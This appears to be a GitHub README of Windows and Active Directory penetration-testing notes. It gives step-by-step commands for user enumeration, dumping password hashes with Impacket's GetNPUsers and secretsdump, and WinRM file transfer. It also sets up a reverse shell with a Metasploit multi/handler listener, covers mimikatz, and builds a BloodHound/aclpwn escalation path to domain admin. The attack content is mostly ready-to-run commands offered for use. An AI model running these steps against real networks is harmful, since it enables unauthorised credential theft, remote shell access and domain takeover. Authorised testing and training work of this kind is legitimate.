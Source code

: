 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 
